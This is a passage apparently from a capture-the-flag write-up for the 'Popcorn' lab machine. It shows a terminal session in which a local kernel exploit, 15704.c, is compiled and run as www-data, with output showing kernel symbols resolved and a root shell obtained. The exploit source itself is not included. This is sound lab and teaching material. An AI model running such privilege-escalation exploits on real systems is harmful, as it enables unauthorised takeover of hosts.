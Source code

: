 Tranfer exploit `15704.c` to `Popcorn server`, compile and execute it, I have root.

```
www-data@popcorn:/var/www$ gcc 15704.c -o 15704
gcc 15704.c -o 15704
www-data@popcorn:/var/www$ chmod +x 15704
chmod +x 15704
www-data@popcorn:/var/www$ ./15704
./15704
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf846a280
 [+] Resolved econet_ops to 0xf846a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# whoami
whoami
root
# 
```